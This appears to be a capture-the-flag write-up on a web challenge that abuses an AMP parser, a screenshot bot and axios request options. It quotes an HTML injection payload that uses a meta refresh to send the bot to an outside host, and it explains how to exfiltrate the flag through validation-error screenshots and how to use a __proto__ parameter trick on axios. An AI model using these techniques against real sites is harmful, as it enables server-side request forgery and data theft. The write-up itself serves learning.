 The amount of vulnerabilities and tricks stacked into this one challenge is crazy.

First, we have to look at how to get unintended behavior out of the DOM. The official writeup used the <amp-ad> element which did not require an additional source and could access an external site using the data-pubnetwork-lib property. The writeup by wbowling used a different and much cooler exploit in which they were able to break the AMP parser. It was essentially adding <noscript><!-- </noscript>  <meta http-equiv="refresh" content="0;url=http://aw.rs:12344"> --></noscript>. During the CTF, I noticed that the parser was failing test cases where elements were inserted inside of each other and closed. Also, HTML comments and noscript tags can have weird behavior so I definitely should've tried this out myself. 

Now with the very powerful primitive that the screenshot bot will visit our site there are still many steps to go. One interesting idea was how to exfiltrate the data from the database. The official writeup, and what I implemented, abused the fact that the validate route would report invalid AMP code so we could fit the flag in some part of invalid AMP and it would display it in a screenshot. This is perfect because it helps bypass SOP (we get to see what the browser sees). This was done by making a document with id `a` that started a script tag and a document with id `z` that ended the script tag. Then by inserting a meta tag, the error will show up clearly when requesting all documents from the collection. 

Another interseting thing was how to send objects in POST request parameters. I noted this in a comment but it is interesting that to pass a nested object you just need to nest the properties in brackets, ex. input[headers][Content-Type]. This combined with the fact that axios will take in an object and not just a URL was another trick in this challenge.

Finally, the last trick is to get the response to be text. There are 2 approaches and I used the method from the original writeup. The official writeup's method is to set `transformResponse` to null. However, in a POST request with form data, we cannot actually send a null, it would be "null". I'm not 100% sure why this works but setting the prototype on the object works to set the property to null, ex. `createInput('input[transformResponse][__proto__]', '')`. My best guess is that axios may be interpreting parameters weirdly in the source code. I didn't have time to actually look for the reasoning yet. The other approach from wbowling's solution is add `爀` to the response and set the `responseEncoding` to `ascii` the json parsing fails and it returns text. This makes some sense as to why it would work as the parser doesn't recognize that character so it would default to text.
